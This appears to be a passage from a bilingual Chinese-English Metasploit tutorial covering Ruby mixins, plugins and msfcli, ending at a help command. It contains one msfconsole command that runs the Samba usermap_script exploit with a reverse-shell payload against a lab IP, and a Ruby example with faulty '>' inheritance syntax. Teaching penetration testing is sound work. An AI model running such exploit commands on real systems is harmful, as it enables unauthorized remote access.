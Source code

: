 ```
Mixins can change behavior.
- The Scanner mixin overloads run()
- Scanner changes run() for run_host() and run_range()
- It calls these in parallel based on the THREADS setting
- The BruteForce mixin is similar

```
class MyParent
     def woof
          puts “woof!”
     end
end

class MyClass > MyParent
end

object = MyClass.new
object.woof() => “woof!”

================================================================

module MyMixin
     def woof
          puts “hijacked the woof method!”
     end
end

class MyBetterClass > MyClass
     include MyMixin
end
```

##### Metasploit Plugins

插件类似API一样在工作。

- They manipulate the framework as a whole
- Plugins hook into the event subsystem
- They automate specific tasks that would be tedious to do manually

Plugins only work in the msfconsole.
- Plugins can add new console commands
- They extend the overall Framework functionality

## 2 MSF 基础

### 2.1 MSFcli

msfcli 为MSF提供了一个强力的命令行接口，它允许简单的加入metasploit 渗透模块到任何你生成的脚本中。

<img src="images/12/requirements_msf.png" width="480" alt="requirements_msf" />


如果项快速进入某个渗透工具，使用它的方法是```-x```选项，例如：

```
root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
   set RHOST 172.16.194.172; \
   set PAYLOAD cmd/unix/reverse; \
   set LHOST 172.16.194.163; \
   run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h